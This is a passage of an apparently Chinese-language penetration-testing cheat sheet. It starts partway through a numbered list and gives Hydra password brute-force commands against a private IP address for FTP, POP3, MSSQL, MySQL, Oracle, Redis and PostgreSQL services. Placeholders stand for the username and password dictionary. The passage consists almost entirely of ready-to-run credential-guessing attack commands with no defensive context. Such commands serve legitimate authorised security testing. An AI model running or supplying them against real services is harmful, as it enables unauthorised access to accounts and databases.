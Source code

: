 ### ⑤文件传输（FTP）：



```
hydra -l 用户名 -P 密码字典 192.168.31.173 ftp	

```

### ⑥协议邮箱（POP3）



```
hydra -l 用户名 -P 密码字典 192.168.31.173 pop3

```

### ⑦MSSQL数据库

```
hydra -l sa -P 密码字典 192.168.31.173 mssql

```



### ⑧MYSQL数据库

```
hydra -l 用户名 -P 密码字典 192.168.31.173 mysql

```



### ⑨Oracle

```
hydra -l 用户名 -P 密码字典 192.168.31.173 oracle
```



### ⑩Redis数据库



```
hydra -l 用户名 -P 密码字典 192.168.31.173 redis

```



### 1①PgSQL数据库

```
hydra -l 用户名 -P 密码字典 192.168.31.173 postgresql

```
